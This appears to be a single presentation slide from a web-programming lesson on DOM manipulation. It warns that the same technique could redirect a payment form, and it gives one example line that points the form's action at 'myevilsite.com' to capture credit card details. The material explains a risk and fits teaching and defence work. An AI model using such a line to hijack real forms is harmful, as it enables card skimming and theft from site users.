

# A note on changing info
We used the DOM objects to modify the contents of the loaded webpage.
You could if you wished, use the same technique with a payment section of a site and change where the form sends the credit card info too. Something like:
document.getElementById(“theform”).action=“http://myevilsite.com/ process.php”